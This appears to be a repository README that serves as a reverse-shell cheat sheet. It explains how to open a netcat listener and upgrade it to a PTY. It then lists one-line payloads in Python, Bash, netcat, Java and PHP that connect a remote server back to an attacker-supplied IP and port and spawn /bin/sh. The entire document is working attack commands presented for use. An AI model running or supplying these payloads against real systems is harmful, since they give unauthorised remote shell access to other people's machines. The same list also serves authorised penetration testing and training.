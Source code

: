 Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine
To listen for an incoming connection and upgrade to a pty shell:
```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

Then, `Ctrl-Z` and type:
```bash
stty raw -echo
```

The console should be black, next foreground the shell with `fg` then
reinitialize the terminal with `reset`.


## On the remote server

### Python
```bash
python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"{IP}\\",{Port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
```

### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```

